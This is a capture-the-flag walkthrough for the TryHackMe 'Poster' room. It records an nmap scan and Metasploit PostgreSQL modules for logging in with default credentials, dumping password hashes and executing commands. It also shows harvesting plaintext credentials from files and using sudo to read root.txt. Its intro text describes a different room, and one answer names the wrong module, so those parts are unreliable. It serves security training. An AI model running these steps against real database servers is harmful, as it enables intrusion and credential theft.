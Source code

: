 ```yaml
---
layout: post
title: Walkthrough - Poster
published: true
---
```


RDBMS, SQL, Enumeration, Metasploit. Time to enter the warren... Can you hack into the Year of the Rabbit box without falling down a hole?

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

- `sudo nmap -sV -sS -sC -O -p22,80,5432 -T4 10.10.5.243`

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71:ed:48:af:29:9e:30:c1:b6:1d:ff:b0:24:cc:6d:cb (RSA)
|   256 eb:3a:a3:4e:6f:10:00:ab:ef:fc:c5:2b:0e:db:40:57 (ECDSA)
|_  256 3e:41:42:35:38:05:d3:92:eb:49:39:c6:e3:ee:78:de (ED25519)
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Poster CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
5432/tcp open  postgresql PostgreSQL DB 9.5.8 - 9.5.10 or 9.5.17 - 9.5.21
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-29T00:54:25
|_Not valid after:  2030-07-27T00:54:25
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (94%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* * * 

## What is the rdbms installed on the server?

- postgresql

* * * 

## What port is the rdbms running on?

- 5432

* * * 

## Metasploit contains a variety of modules that can be used to enumerate in multiple rdbms, making it easy to gather valuable information. After starting Metasploit, search for an associated auxiliary module that allows us to enumerate user credentials. What is the full path of the modules (starting with auxiliary)?

- `msf6 auxiliary(scanner/postgres/postgres_login) > set rhosts 10.10.5.243`

* * * 

## What are the credentials you found? user:password

- `[+] 10.10.5.243:5432 - Login Successful: postgres:password@template1`

* * * 

## What is the full path of the module that allows you to execute commands with the proper user credentials (starting with auxiliary)?

```
msf6 auxiliary(admin/postgres/postgres_sql) > run
[*] Running module against 10.10.5.243

Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit

[*] Auxiliary module execution completed
```

* * * 

## Based on the results of #6, what is the rdbms version installed on the server?

- 9.5.21

* * * 

## What is the full path of the module that allows for dumping user hashes (starting with auxiliary)?

- `auxiliary/admin/postgres/postgres_sql`

* * * 

## How many user hashes does the module dump?

```
msf6 auxiliary(scanner/postgres/postgres_hashdump) > run

[+] Query appears to have run successfully
[+] Postgres Server Hashes
======================

 Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

* * * 

## What is the full path of the module (starting with auxiliary) that allows an authenticated user to view files of their choosing on the server?

- `auxiliary/admin/postgres/postgres_readfile`

* * * 

## What is the full path of the module that allows arbitrary command execution with the proper user credentials (starting with exploit)?

- `exploit/multi/postgres/postgres_copy_from_program_cmd_exec`

* * * 

## Compromise the machine and locate user.txt

Found in a users dir:

```
postgres@ubuntu:/home/dark$ cat credentials.txt 
cat credentials.txt
dark:qwerty1234#!hackme
```

- we are able to loging via ssh with these creds

- `cat /etc/crontab` we find root is running a script `root    cd /opt/ufw && bash ufw.sh`

```
$ cat ufw.sh
ufw disable
```

we dont have access to write to this file. might be able to do soemthing with PATH but check some other things first. run linpeas.sh

find some loot

- `$dbpass = "p4ssw0rdS3cur3!#";  `
- /var/www/html/config.php
```
dark@ubuntu:/var/www/html$ cat config.php
<?php 

        $dbhost = "127.0.0.1";
        $dbuname = "alison";
        $dbpass = "p4ssw0rdS3cur3!#";
        $dbname = "mysudopassword";
```

- su to alison with creds

* * * 

## Escalate privileges and obtain root.txt

- `sudo -l`
- `alison@ubuntu:/$ sudo cat root/root.txt`

* * * 

